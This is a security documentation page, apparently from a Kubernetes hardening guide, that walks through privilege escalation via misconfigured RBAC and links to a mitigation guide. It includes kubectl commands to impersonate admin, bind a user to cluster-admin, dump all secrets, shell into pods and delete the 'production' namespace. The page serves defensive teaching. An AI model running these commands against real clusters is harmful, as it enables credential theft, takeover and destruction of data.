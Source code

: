 ```yaml
---
sidebar_position: 8
title: "Insecure RBAC Permissions"
description: "How overly permissive Kubernetes RBAC configurations enable privilege escalation and full cluster compromise."
---
```


# Insecure RBAC Permissions

Kubernetes uses **Role-Based Access Control (RBAC)** to define who can perform what actions on which resources. When RBAC policies are **misconfigured**—especially with wildcard permissions or broad cluster role bindings—attackers can **escalate privileges**, impersonate users, and gain full control over the cluster.

---

## Exploitation Steps

### 1. List RBAC Roles and Bindings

The attacker uses a compromised pod or user account to list all RBAC roles, bindings, and cluster-wide permissions:

```bash
kubectl get roles,rolebindings,clusterroles,clusterrolebindings -A
```

They inspect the output for excessive permissions, wildcard access, or sensitive bindings.

---

### 2. Check Impersonation Rights

The attacker checks whether they are allowed to impersonate a high-privileged user like `admin`:

```bash
kubectl auth can-i '*' '*' --as=admin
```

If the result is `yes`, the attacker can assume admin-level access.

---

### 3. Create a ClusterRoleBinding

If allowed to bind roles, the attacker binds themselves to the powerful `cluster-admin` role:

```bash
kubectl create clusterrolebinding attacker-admin \
  --clusterrole=cluster-admin \
  --user=attacker
```

Or by applying a crafted binding file:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: pwned-cluster-admin
subjects:
  - kind: User
    name: admin
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

Apply it:

```bash
kubectl apply -f pwned-cluster-admin.yaml
```

---

### 4. Execute Arbitrary Commands

Now acting as a `cluster-admin`, the attacker has unrestricted access:

```bash
kubectl get secrets -A
kubectl exec -it <pod-name> -- /bin/sh
kubectl delete namespace production
```

They can read secrets, modify workloads, and delete critical resources across all namespaces.

---

### Result

The attacker has **full administrative control** over the cluster. They can exfiltrate data, delete services, pivot to other environments, or install persistent backdoors.

---

## Mitigation

➡ [See Mitigation Guide for Insecure RBAC Permissions](/docs/best_practices/cluster_setup_and_hardening/rbac_and_identity/insecure_rbac_permissions_mitigation)
